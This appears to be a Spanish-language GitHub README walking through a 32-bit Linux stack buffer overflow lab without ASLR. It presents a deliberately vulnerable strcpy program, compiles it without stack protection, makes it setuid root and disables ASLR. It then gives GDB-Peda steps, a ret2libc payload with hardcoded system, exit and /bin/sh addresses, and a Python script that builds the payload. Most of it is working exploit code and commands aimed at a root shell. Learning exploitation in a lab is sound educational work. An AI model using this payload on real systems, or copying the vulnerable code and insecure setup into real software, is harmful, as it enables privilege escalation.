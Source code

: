 **EXPLICACÍON DETALLADA EN** [Buffer Overflow 32 Bits Linux (sin ASLR)](https://hacknotes.github.io/buffer%20overflow/buff32linuxSinAslr/)

## Script
```bash
#include <stdio.h>
#include <string.h>

int vuln(char *str)
{
    char buf[64];
    strcpy(buf,str);
    printf("Cadena: %s\n",buf);
    return 0;
}
int main(int argc, char* argv[])
{
    vuln(argv[1]);
}
```

## Compilación

 ```bash
gcc -fno-stack-protector -m32 buff.c -o buff
```

## Permisos
 
```bash
 chown root:root buff
 chmod +s buff
```
## Desactivar el ASLR
```python
echo 0 > /proc/sys/kernel/randomize_va_space
```
 
 ## GDB-Peda

Vemos los registros de la memoria

**Comando:** 
 ```bash
 i r
 ```
 
Crea cadenas aleatorias

**Comando:**
 ```bash
 pattern arg 100
 ```
 
 Ejecuta el binario

**Comando:**
 ```bash
 r
 ```
 
Encuentra el tamaño del offset.

**Comando:**
 ```bash
 pattern search
 ```
 
 Muestra la dirección de system.

**Comando:**
 ```bash
 p system
 ```
 Muestra la dirección de exit.

**Comando:**
 ```bash
 p exit
 ```
 Muestra la dirección de /bin/sh.

**Comando:**
 ```bash
 find "/bin/sh" all
 ```
 
 ## Payload final
 ```bash
 payload = offset + system + exit + /bin/sh
 
 $(python -c 'print "A"*76 + "\x10\x33\xe5\xb7" + "\x60\x62\xe4\xb7" + "\x4c\x5d\xf7\xb7"')
```

## Script en python
```python
#/usr/bin/python2

from struct import pack

offset = 76

systemAdd = pack("<I", 0xb7e53310)
exitAdd = pack("<I", 0xb7e46260)
binshAdd = pack("<I", 0xb7f75d4c)

junk = "A"*76

payload = junk + systemAdd + exitAdd + binshAdd

print payload
```

**EXPLICACÍON DETALLADA EN** [Buffer Overflow 32 Bits Linux (sin ASLR)](https://hacknotes.github.io/buffer%20overflow/buff32linuxSinAslr/)
